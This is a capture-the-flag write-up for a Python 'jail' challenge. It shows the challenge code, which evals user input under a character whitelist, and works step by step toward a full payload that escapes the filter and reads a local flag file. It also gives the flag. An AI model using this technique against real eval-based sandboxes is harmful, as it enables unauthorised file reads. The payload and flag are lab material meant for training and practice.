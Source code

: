 # Cobra's Den 

## Description: You have entered the Cobra's Den, can you find a way to escape?

## Files

<details>
	<summary>Chal.py</summary>

```py
# flag stored at 'flag' in current dir
import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})
print(filtered_builtins)
whitelist = "<ph[(cobras.den)]+~"
security_check = lambda s: any(c not in whitelist for c in s) or len(s) > 1115 or s.count('.') > 1

print('Good luck!')
while True:
    cmd = input("Input: ")
    if security_check(cmd):
        print("No dice!")
    else:
        try:
            eval(f"print({cmd})", {"__builtins__": filtered_builtins})
        except SyntaxError as e:
            print(f"Syntax error: {e}")
        except Exception as e:
            print(f"An error occurred: {e}")
```
</details>

## Understanding the code

The code allows all builtins with length of 4 or less. However, you can only use functions that are comprised of `<ph[(cobras.den)]+~`. It executes our input like this: `print({cmd})`. The flag is in `flag` in current directory, so we can do a simple `open('flag').read()` (since it prints our input, it is equivalent to: `print(open('flag').read())`)

If we look at the functions, we can use `open` and `read` since all characters are in the whitelist and the length is four. The challenge is to create the string 'flag'.

## Functions

Looking at the builtins, there are some important functions we could use to create the string:
- `chr`
- `ord`
- `hash`
- `abs`
- `repr`

`chr` `and` ord are important functions, as they can be used to create letters.

We can also use `+` ,`<` and `~` (bitwise not).

## A trick

We could just do `chr(102)` to create 'f' right? Unforunately, no. We cannot use numbers.
A trick in python is that `True+True` is considered 2! `True+True+True` is 3 and so on!

## Creating numbers

We can't just type `True` either, since "T" is not whitelisted, but we can create it!

We can use the `hash` function to do so. Running `hash(())` in python gives: `5740354900026072187`

So, `hash(())<hash(())` gives us False! Now let's create True. Remember the `~`? it also flips the sign bit, so `~hash(())` is `-5740354900026072188`

`~hash(())<hash(())` is True!

## A problem

We can just add `~hash(())<hash(())` to itself: `~hash(())<hash(())+~hash(())<hash(())` to create numbers. However, we have a length limit: 1115. We have to figure out a different way.

# Solution

Remember `repr`: Return the canonical string representation of the object.

`repr(False)` returns the string "False". I can use the first index to get the letter "a"! 
Since `True` is equal to 1, `'False'[True]` outputs 'a'.

The first letter we need is 'f', however False has a capital "F". well, we can take the ASCII value of "a" by accessing the first index of the string "False" and then calling `ord` on it: `ord(repr(hash(())<hash(()))[~hash(())<hash(())])` and then add 5 to create "f": `chr(ord(repr(hash(())<hash(()))[~hash(())<hash(())])+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(())))`!

Then, we can use `repr(hash(())<hash(()))[(~hash(())<hash(()))+(~hash(())<hash(()))]`  to create "l" because `'False'[True+True]` outputs "l".

We can use `repr(hash(())<hash(()))[(~hash(())<hash(()))]` again to create "a"

Finally, create "g" the same way we created "f": `chr(ord(repr(hash(())<hash(()))[~hash(())<hash(())])+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(())))`
Then, we can add all of these strings together and wrap it in `open` and `.read()` to get our flag!

Final payload:
```
open(chr(ord(repr(hash(())<hash(()))[~hash(())<hash(())])+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(())))+repr(hash(())<hash(()))[(~hash(())<hash(()))+(~hash(())<hash(()))]+repr(hash(())<hash(()))[(~hash(())<hash(()))]+chr(ord(repr(hash(())<hash(()))[~hash(())<hash(())])+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(()))+(~hash(())<hash(())))).read()
```

# Flag: irisctf{pyth0n_has_s(+([]<[]))me_whacky_sh(+([]<[[]]))t}
